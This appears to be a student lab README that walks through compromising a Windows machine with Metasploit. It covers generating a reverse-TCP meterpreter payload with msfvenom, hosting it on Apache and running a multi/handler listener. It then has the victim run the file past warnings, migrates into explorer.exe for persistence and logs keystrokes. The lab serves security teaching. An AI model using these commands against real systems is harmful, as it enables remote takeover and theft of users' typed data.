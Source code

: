 # Compromising-windows-using-Metasploit
# AIM:
To Compromise windows using Metasploit .
## DESIGN STEPS:

- `Step 1:` Install kali linux either in partition or virtual box or in live mode
- `Step 2:` Investigate on the various categories of tools as follows:
- `Step 3:` Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

![1 (2)](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/91b1d6bd-b550-44b7-9078-8e33d5d1c687)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![2 (2)](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/4a9b1ffa-12a2-4a61-a1c4-e744305813d7)


copy the fun.exe into the apache /var/www/html folder

![3 (2)](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/e46f37c0-0afc-45b3-971c-07e233b9a0a7)


Start apache server sudo systemctl apache2 start

![4 (1)](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/37c6e990-16fe-4418-bf04-152676f12279)

Check the status of apache2

![5 (2)](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/08af0bc6-af5e-4cfc-9325-576b87a9ff99)


Invoke msfconsole:
msfconsole

![6](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/3c0a3a26-eb2e-4daa-9a95-53d37db6e1cf)


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![7](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/d662d5dc-1ad2-4381-a973-f6938c4951a5)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![8](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/72b53315-b953-4822-9b5b-31a96ec49842)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![9](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/7eadee0e-ff4e-4831-8f66-a35a806eeaf5)


Bypass any warning boxes, double-click the file, and allow it to run.

![10](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/30f8d40d-233c-44f0-9c50-2808fd284ef5)


On kali give the command exploit

![11](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/845ed1b8-1b02-4282-af0e-83bebab454e0)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![12](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/8b475ebc-28f2-4eca-8be9-0f7eb2ece9fb)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![13](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/e0930792-5922-4996-a4de-bea16cc0c76c)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![14](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/119063d8-d91e-40cc-8984-83405b530098)
![15](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/5e275919-6700-4d07-8887-a48ee0827b8f)


keyscan_dump Shows the keystrokes captured so far.

![16](https://github.com/Vineesh-AI-DS/Compromising-windows-using-Metasploit/assets/93427254/41dd1ee3-0574-43a5-b0f5-f61664cbef02)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
